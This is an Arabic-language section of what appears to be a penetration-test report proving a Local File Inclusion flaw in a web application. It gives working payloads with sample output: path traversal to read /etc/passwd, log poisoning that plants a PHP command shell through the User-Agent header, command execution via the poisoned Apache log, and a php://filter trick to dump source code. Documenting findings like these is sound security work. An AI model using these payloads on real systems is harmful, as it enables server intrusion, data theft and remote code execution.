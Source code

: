 
## القسم الرابع: اثبات استغلال ثغرات Local File Inclusion (LFI)

### 🎯 الهدف
نظام تضمين الملفات في تطبيق الويب

### 🔍 وصف الثغرة
ثغرة LFI تسمح للمهاجم بقراءة ملفات حساسة من على الخادم، مما يؤدي إلى الكشف عن معلومات حساسة وتنفيذ كود على الخادم.

### 💻 اثبات الاستغلال

#### الخطوة 1: قراءة ملفات حساسة
```
# الحمل: ../../../etc/passwd
# النتيجة:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
mysql:x:109:117:MySQL Server,,,:/nonexistent:/bin/false
admin:x:1000:1000:admin,,,:/home/admin:/bin/bash
```

#### الخطوة 2: تسميم السجلات (Log Poisoning)
```php
# الحمل: <?php system($_GET['cmd']); ?>
# الطريقة: إرسال كود PHP في رأس User-Agent
# النتيجة: ✅ تم تسميم ملف السجل
# تم إدخال كود PHP ضار في ملف السجل
```

#### الخطوة 3: تنفيذ الأوامر من خلال السجل المسموم
```
# الحمل: /var/log/apache2/access.log&cmd=id
# النتيجة: تم تنفيذ الأوامر من خلال تضمين ملف السجل
# uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### الخطوة 4: استخدام مرشحات PHP
```
# الحمل: php://filter/read=convert.base64-encode/resource=index.php
# النتيجة: 📖 تم قراءة كود PHP المصدر
# تم الحصول على كود المصدر بصيغة Base64
```

### 💥 التأثير
- ✅ قراءة ملفات النظام الحساسة
- ✅ تنفيذ كود PHP من خلال تسميم السجلات
- ✅ الكشف عن كود المصدر للتطبيق
- ✅ الوصول إلى معلومات التهيئة
